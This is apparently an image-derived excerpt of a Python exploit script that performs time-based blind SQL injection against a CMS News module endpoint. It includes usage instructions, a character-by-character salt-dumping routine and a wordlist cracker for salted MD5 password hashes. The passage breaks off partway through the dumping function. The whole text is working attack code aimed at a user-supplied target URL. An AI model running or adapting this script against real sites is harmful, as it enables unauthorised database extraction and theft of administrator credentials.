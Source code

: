 ```python

options, args = parser.parse_args()
if not options.url:
    print("[+] Specify an url target")
    print("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print("[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist")
    print("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt  
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
```